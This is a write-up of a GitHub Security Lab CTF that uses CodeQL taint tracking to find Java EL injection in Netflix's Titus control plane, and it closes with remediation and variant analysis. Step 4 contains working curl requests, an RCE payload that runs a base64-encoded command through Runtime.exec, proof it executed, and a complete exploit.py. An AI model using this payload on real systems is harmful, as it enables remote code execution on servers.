# GitHub Security Lab CTF 4: CodeQL and Chill - The Java Edition

## Step 1: Data flow and taint tracking analysis

### Step 1.1: Sources
Query: [1-1-sources.ql](queries/1-1-sources.ql)

```
predicate isSource(DataFlow::Node source) {
  exists(Method m |
    m.getASourceOverriddenMethod().getQualifiedName().matches("ConstraintValidator.isValid") and
    source.asParameter() = m.getParameter(0)
  )
}
```

### Step 1.2: Sinks
Query: [1-2-sinks.ql](queries/1-2-sinks.ql)
```
predicate isSink(DataFlow::Node sink) {
  exists(MethodAccess ma |
    ma.getMethod().getQualifiedName() =
      "ConstraintValidatorContext.buildConstraintViolationWithTemplate" and
    ma.getArgument(0) = sink.asExpr()
  )
}
```

### Step 1.3: Taint Tracking Configuration
Query: [1-3-tainttracking.ql](queries/1-3-tainttracking.ql)
```
/**
 * @kind path-problem
 */

import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

class MyTaintTrackingConfig extends TaintTracking::Configuration {
  MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

  override predicate isSource(DataFlow::Node source) {
    exists(Method m |
      m.getASourceOverriddenMethod().getQualifiedName().matches("ConstraintValidator.isValid") and
      source.asParameter() = m.getParameter(0)
    )
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(MethodAccess ma |
      ma.getMethod().getQualifiedName() =
        "ConstraintValidatorContext.buildConstraintViolationWithTemplate" and
      ma.getArgument(0) = sink.asExpr()
    )
  }
}

from MyTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

### Step 1.4: Partial Flow to the rescue
Query: [1-4-partialflow.ql](queries/1-4-partialflow.ql)
```
/**
 * @kind path-problem
 */

import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PartialPathGraph // this is different!

class MyTaintTrackingConfig extends TaintTracking::Configuration {
  MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

  override predicate isSource(DataFlow::Node source) {
    exists(Method m |
      m.getASourceOverriddenMethod().getQualifiedName().matches("ConstraintValidator.isValid") and
      source.asParameter() = m.getParameter(0)
    )
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(MethodAccess ma |
      ma.getMethod().getQualifiedName() =
        "ConstraintValidatorContext.buildConstraintViolationWithTemplate" and
      ma.getArgument(0) = sink.asExpr()
    )
  }

  override int explorationLimit() { result = 10 } // this is different!
}

from MyTaintTrackingConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink
where
  cfg.hasPartialFlow(source, sink, _) and
  source.getNode().asParameter().getName() = "container" // DONE restrict to the one source interested in, for ease of debugging
select sink, source, sink, "Partial flow from unsanitized user data"

predicate partial_flow(DataFlow::PartialPathNode n, DataFlow::Node src, int dist) {
  exists(MyTaintTrackingConfig conf, DataFlow::PartialPathNode source |
    conf.hasPartialFlow(source, n, dist) and
    src = source.getNode() and
    src.asParameter().getName() = "container" // DONE - restrict to THE source interested in
  )
}
```

### Step 1.5: Identifying a missing taint step
Default steps are careful to avoid false-positives, especially for production-level queries.

### Step 1.6
Query: [1-6-additionaltaint.ql](queries/1-6-additionaltaint.ql)

Relevant changes:
```
predicate flowPreservingCallable(Callable m) {
  exists(string s |
    s = m.getName() and
    (
      s = "getSoftConstraints" or
      s = "getHardConstraints" or
      s = "keySet"
    )
  )
}

class StepThroughMemberMethodAccess extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma |
      pred.asExpr() = ma.getQualifier() and
      succ.asExpr() = ma and
      flowPreservingCallable(ma.getMethod())
    )
  }
}
```

### Step 1.7
Query: [1-7-constructor-taint.ql](queries/1-7-constructor-taint.ql)

Relevant changes:
```
predicate flowPreservingCallable(Callable m) {
  exists(string s |
    s = m.getName() and
    (
      s = "getSoftConstraints" or
      s = "getHardConstraints" or
      s = "keySet" or
      s.matches("HashSet%") // Added
    )
  )
}

class StepThroughConstructor extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(ConstructorCall cc |
      pred.asExpr() = cc.getAnArgument() and
      succ.asExpr() = cc and
      flowPreservingCallable(cc.getConstructor())
    )
  }
}
```

### Step 1.8
Query: [1-8-finish.ql](queries/1-8-finish.ql)
```
/**
 * @kind path-problem
 */

import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

predicate flowPreservingCallable(Callable m) {
  exists(string s |
    s = m.getName() and
    (
      s = "getSoftConstraints" or
      s = "getHardConstraints" or
      s = "keySet" or
      s.matches("HashSet%")
    )
  )
}

class StepThroughMemberMethodAccess extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma |
      pred.asExpr() = ma.getQualifier() and
      succ.asExpr() = ma and
      flowPreservingCallable(ma.getMethod())
    )
  }
}

class StepThroughConstructor extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(ConstructorCall cc |
      pred.asExpr() = cc.getAnArgument() and
      succ.asExpr() = cc and
      flowPreservingCallable(cc.getConstructor())
    )
  }
}

class MyTaintTrackingConfig extends TaintTracking::Configuration {
  MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

  override predicate isSource(DataFlow::Node source) {
    exists(Method m |
      m.getASourceOverriddenMethod().getQualifiedName().matches("ConstraintValidator.isValid") and
      source.asParameter() = m.getParameter(0)
    )
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(MethodAccess ma |
      ma.getMethod().getQualifiedName() =
        "ConstraintValidatorContext.buildConstraintViolationWithTemplate" and
      ma.getArgument(0) = sink.asExpr()
    )
  }
}

from MyTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

## Step 2
Query: [2-second-issue.ql](queries/2-second-issue.ql)

Relevant changes:
```
predicate flowPreservingCallable(Callable m) {
  exists(string s |
    s = m.getName() and
    (
      s = "getSoftConstraints" or
      s = "getHardConstraints" or
      s = "keySet" or
      s = "stream" or // Added
      s = "map" or // Added
      s = "collect" or // Added
      s.matches("HashSet%")
    )
  )
}
```

## Step 3
The heuristics for error-writing methods I've used are : 
* if the sink has a String param - and an exception object/fields flow to it - then it is a valid sink
* the method should not have words assert or format in its name

Query: [3-errors-exceptions.ql](queries/3-errors-exceptions.ql)
```
import java
import semmle.code.java.dataflow.TaintTracking

predicate methodMightWriteErrorMessage(Method m) {
  m.getParameterType(_).getName() = "String" and
  not (
    m.getName().matches("%assert%") or
    m.getName().matches("%format%")
  )
}

class StepThroughExceptionThrow extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(
      TryStmt ts, FieldAccess fa, CatchClause cc, MethodAccess ma, MethodAccess ma2, Exception e
    |
      cc.getTry() = ts and
      pred.asExpr().getEnclosingStmt() = ts.getBlock().getAChild*() and
      succ.asExpr().getEnclosingStmt() = cc.getBlock().getAChild*() and
      pred.asExpr() = ma.getAnArgument() and
      ma.getMethod().getAThrownExceptionType().getASupertype*() = cc.getACaughtType() and
      succ.asExpr() = ma2 and
      (
        cc.getVariable().getAnAccess() = ma2.getAnArgument().getAChildExpr*()
        or
        cc.getVariable().getAnAccess() = fa.getQualifier() and
        ma2.getAnArgument().getAChildExpr*() = fa
      ) and
      methodMightWriteErrorMessage(ma2.getMethod())
    )
  }
}

select "Quick-eval step function"
```
As the CTF description suggests - the query doesn't end up finding any new paths - however quick-eval gives some isolated results for the added step:

## Step 4
### Step 4.1
The sources of the tainted data are the bean properties which go through constraint validation. From the tainted-path-flow: the keys of a Container descriptor's `softConstraints` and `hardConstraints` fields would be where the malicious Java EL goes so that it gets evaluated in the sink (since these fields are annotated with `@SchedulingConstraintValidator.SchedulingConstraint`):

Such a container descriptor is sent as part of a job descriptor in order to schedule it. From the project's
[README.md](https://github.com/Netflix/titus-control-plane/blob/master/README.md):
```
curl localhost:7001/api/v3/jobs \
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
The sink follows the [deffered evaluation syntax](https://docs.oracle.com/cd/E19798-01/821-1841/bnahr/index.html). Sending a non-exploitative PoC Java EL (`#{7+7}`) which is expected to be evaluated if the tainted path is followed:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{7+7}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
This gives the response (`14`) confirming the vulnerability:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [14]', type: 'HARD''}"}
```

This proves that the vulnerability exists. However this is not an RCE. Getting an RCE is not straightforward for this vulnerability.

There are two sinks, corresponding to the two issues that the final query reported, for the same sources: one in SchedulingConstraintValidator.java and another in SchedulingConstraintSetValidator.java. 

#### SchedulingConstraintValidator.java (lowercase Java EL)

Unfortunately, the tainted data (Java EL expression) gets converted into lower case in SchedulingConstraintValidator.java before it gets evaluated. The malicious Java EL expression therefore should remain valid after this lowercase conversion otherwise an Exception is thrown.

For example: #{"abc".charAt(1)} would get converted to #{'abc'.charat(1)} and since `charat` is not a valid string function an exception would be thrown. This can be verified by running:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".charAt(1)}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'

```
which gives the response:
```
{"statusCode":500,"message":"Unexpected error: HV000149: An exception occurred during message interpolation"}
```
However, a Java EL expression like `'abc'.concat('def')` would not change when converted to lower case and hence remain valid:
```
curl localhost:7001/api/v3/jobs \                                                                                                                                                 master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
The response contains `abcdef` as expected:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}"}
```
I was unable to come up with an all-lowercase Java EL RCE expression (mainly because of Java's naming convention for available functions and classes)

#### SchedulingConstraintSetValidator.java
This validator does not perform the toLowerCase transformation. But unfortunately since the source is same, the Java EL expression gets evaluated in both sinks regardless. So unless the Java EL expression remains valid under toLowerCase transformation, an Exception will be thrown.
Valid Java EL under toLowerCase `#{'abc'.concat('def')`):
```
curl localhost:7001/api/v3/jobs \                                                                                                                                  master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}},
      "hardConstraints": {"constraints": {"#{\"abc\".concat(\"def\")}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [abcdef]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [abcdef]', type: 'HARD''}"}
```
But with Java EL containing upper-case characters (`#{"abc".charAt(0)}`):

```
curl localhost:7001/api/v3/jobs \                                                                                                                                  master!?
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{\"abc\".charAt(0)}":"True"}},
      "hardConstraints": {"constraints": {"#{\"abc\".charAt(0)}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
```
```
{"statusCode":500,"message":"Unexpected error: HV000149: An exception occurred during message interpolation"}
```
So ultimately: the exploit Java EL expression needs to remain valid after toLowerCase transformation - at least in the context of SchedulingConstraintValidator.java

Since I was unfamiliar with Java EL exploitation I started reading up on it. And for better or worse, I decided to look at the fix so that I might better understand the bug. Well, the fix had the full exploit as part of the testing code:
https://github.com/Netflix/titus-control-plane/pull/795/files#diff-f8431485272230e3315d7917db699ee2R39

It is an elegent Java EL expression which depending on where it is evaluated (SchedulingConstraintValidator or SchedulingConstraintSetValidator), evaluates differently:
 `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}"`

 Having looked at this, I could not come up with my own original exploit/primitive without being biased. For the sake of completeness of this write-up I will explain this exploit - and what the steps could've been followed to come up with it.

 The main creativity is the way based on the `this.class.name`, the resulting Java EL to be evaluated will be different in both contexts.

 Expression: `#{this.class.name}`
 Curl command:
 ```
 curl localhost:7001/api/v3/jobs \                                                       
  -X POST -H "Content-type: application/json" -d \
  '{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"#{#this.class.name}":"True"}},
      "hardConstraints": {"constraints": {"#{#this.class.name}":"True"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }'
 ```
 Response:
 ```
 {"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [com.netflix.titus.api.jobmanager.model.job.Container]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [com.google.common.collect.SingletonImmutableBiMap]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [com.google.common.collect.SingletonImmutableBiMap]', type: 'HARD''}"}
 ```
 The class names at the evaluation (deffered) sinks for SchedulingConstraintValidator (`com.google.common.collect.SingletonImmutableBiMap`) and SchedulingConstraintSetValidator (`com.netflix.titus.api.jobmanager.model.job.Container`) are different.

 Using this fact and a ternary operator, the exploit uses an expression which gets evaluated differently in the two contexts:

 Example expression: `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : 'BAR'`
 Response:
 ```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [BAR]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}, {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}"}
```
This now gives the flexibility to evaluate any (no lowercase constraint) Java EL expression by replacing 'BAR' with it. 

Expression for RCE (runs `touch /tmp/pwned` on remote server):  `#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}"`

Output:
```
{"statusCode":400,"message":"Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [java.lang.UNIXProcess]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [foo]', type: 'HARD''}"}
```
To verify the exploit worked, a the `/tmp/pwned` file should have been created in the docker-container - and sure enough, the exploit works:
```
$ docker exec -it tituscontrolplane_gateway_1 /bin/bash
root@51707df922fc:/opt/titus-server-gateway# ls -al /tmp
total 20
drwxrwxrwt 1 root root 4096 Jun  8 18:33 .
drwxr-xr-x 1 root root 4096 Jun  1 18:38 ..
drwxr-xr-x 1 root root 4096 Jun  8 14:01 hsperfdata_root
-rw-r--r-- 1 root root   85 Jun  8 19:16 pwned
```


Exploit: [exploit.py](exploit.py)
```
import requests
from string import Template
payload = """{
    "applicationName": "localtest",
    "owner": {"teamEmail": "me@me.com"},
    "container": {
      "image": {"name": "alpine", "tag": "latest"},
      "entryPoint": ["/bin/sleep", "1h"],
      "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
      "softConstraints": {"constraints": {"${injection}":"True"}},
      "hardConstraints": {"constraints": {"${injection}": "False"}}
    },
    "batch": {
      "size": 1,
      "runtimeLimitSec": "3600",
      "retryPolicy":{"delayed": {"delayMs": "1000", "retries": 3}}
    }
  }
"""
t = Template(payload)

headers = {'Content-type': 'application/json'}

data = t.substitute(injection="#{#this.class.name.substring(0,5) == 'com.g' ? 'FOO' : T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('dG91Y2ggL3RtcC9wd25lZA=='))).class.name}")

r = requests.post(url="http://localhost:7001/api/v3/jobs", headers=headers, data=data)

print r.text
```
### Step 4.2 Remediation
The query gives no results on a patched database (that is mainly because the fix added an abstract class and sanitizer functions through which the query does not propagate data-flow):


#### Query improvements
While writing exploratory queries (by simply relaxing step through member function calls condition) a third variant of the vulnerability was flagged: one in [CollectionValidator.java](https://github.com/Netflix/titus-control-plane/blob/8a8bd4c1b4b63e17520804c6f7f6278252bf5a5b/titus-common/src/main/java/com/netflix/titus/common/model/sanitizer/internal/CollectionValidator.java#L93)


Query: [4-2-variant.ql](queries/4-2-variant.ql)

This variant was not caught initially because the query does not propagate taint through functions: `stream`, `filter`, `map`, `collect` and constructor `TreeSet<>`. Adding these values to the original query's `flowPreservingCallable` predicate - [4-2-variant-prod.ql](queries/4-2-variant-prod.ql) - flags the three variants as expected. This specific query is better for production than the exploratory query above.


I spent quite a bit of time on trying to exploit this variant (since I had not come up with the previous one). This variant is related to any of the `@CollectionInvariants` annotated fields of Map type: like `attributes`, `env` in container descriptor, `softConstraints`, `hardConstraints` etc. If any of the values from the key:value pairs of these Maps are null, then a user controlled Java EL (the key) is evaluated in [buildConstraintViolationWithTemplate](https://github.com/Netflix/titus-control-plane/blob/8a8bd4c1b4b63e17520804c6f7f6278252bf5a5b/titus-common/src/main/java/com/netflix/titus/common/model/sanitizer/internal/CollectionValidator.java#L102).

Unfortunately for HTTP+JSON API the exploit described above does not work because JSON does not allow values within a map to be null. The following error is received:
```
{"statusCode":400,"message":"com.google.protobuf.InvalidProtocolBufferException: Map value cannot be null."}
```
So the tainted data never goes through the path - it stops at the JSON decoding part itself.

There is however a gRPC API exposed by titus too which could've been exploitable. Not having any prior experience with gRPC, I set-up the `.proto` files in a GUI tool: [bloomrpc](https://github.com/uw-labs/bloomrpc). Unfortunately the `null` values were being interpreted as `"null"` strings server-side. I checked this by modifying and re-building part of the titus-control-plane code:

 A `null` value from bloomrpc was being interpreted as a string:
